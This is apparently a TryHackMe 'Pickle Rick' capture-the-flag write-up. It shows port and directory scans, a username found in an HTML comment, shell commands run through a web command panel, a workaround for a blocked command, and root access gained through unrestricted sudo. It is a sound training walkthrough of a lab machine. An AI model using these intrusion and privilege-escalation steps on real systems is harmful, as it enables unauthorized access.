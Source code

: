 # THM - Pickle Rick

## IP Address
10.10.79.232

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.79.232
```
2. The name results will result as shown:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.79.232
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 12:52 UTC
Nmap scan report for ip-10-10-79-232.eu-west-1.compute.internal (10.10.79.232)
Host is up (0.00066s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:cf:86:4b:c2:5c:b9:d2:36:25:ef:89:38:57:16:c2 (RSA)
|   256 69:bf:9d:81:2b:b9:d1:3b:6d:cc:ae:a1:cf:5e:e5:2c (ECDSA)
|_  256 a0:6a:b1:1f:2f:2c:09:45:af:81:41:cb:5e:54:11:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:24:9D:FE:0C:FA (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
```
3. Going into the dev console of the webpage on port ```80``` you will notice a comment.
```
<!--Note to self, remember username! Username: R1ckRul3s-->
```
- So remember Username is ```R1ckRul3s``` it will come in useful for ```ssh``` access.

4. We will try to see if there are more directories on the website:
```bash
gobuster dir -u http://10.10.79.232 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

- Results:
```
/assets (Status: 301)
/server-status (Status: 403)
```

- It has not much information. Lets switch our gobuster search:
```bash
gobuster dir -u http://10.10.79.232 -w /usr/share/wordlists/dirb/common.txt
```

- Results:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

- Interesting and the ```/robots.txt``` contain this ```Wubbalubbadubdub```

- Running ssh on ```R1ckRul3s``` instantly got me denied.
- I tried running ```exiftool <img path>``` on other images as well but didnt return anything useful.

5. After much iteration and researching, I found out that ```nikto``` found that ```http://10.10.79.232``` has a ```/login.php```!!!
```
root@kali:~# nikto -h 10.10.79.232
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.79.232
+ Target Hostname:    10.10.79.232
+ Target Port:        80
+ Start Time:         2020-04-24 13:26:37 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2020-04-24 13:27:24 (GMT0) (47 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

6. We can now login with the previously found username and password. It will bring you to this weird command panel where you can execute command(?).

- Diving into the dev console > Network you will realise ```Post``` didnt do shit to say the least. It just Post nothing.

- There is also another weird comment in the html code:
```
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

- I tried using SQL injection and XSS but nothing return.

- So just for fun, i tried ```ls``` and...:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

7. I tried ```cat Sup3rS3cretPickl3Ingred.txt``` and got trolled so bad, command is disabled.

- However, i noticed there are other ```.php``` files so many if i can change the url to ```//Sup3rS3cretPickl3Ingred.txt``` and we got our first flag.

8. We will search and find other users through ```ls /home``` you will see rick and ubuntu.
- In rick's directory you will also find ```second ingredient``` but ls further will not bring you anywhere. So try running this to capture the 2nd flag.
```bash
less "/home/rick/second ingredients"
```

## Previlege Escalation

9. Let see what can we run in sudo with ```sudo -l```:
```
Matching Defaults entries for www-data on ip-10-10-79-232.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-79-232.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
 ```
 
 - apparently, everything.
 
 10. Run ```sudo ls /root```:
 ```
 3rd.txt
snap
```
- There is our 3rd file!
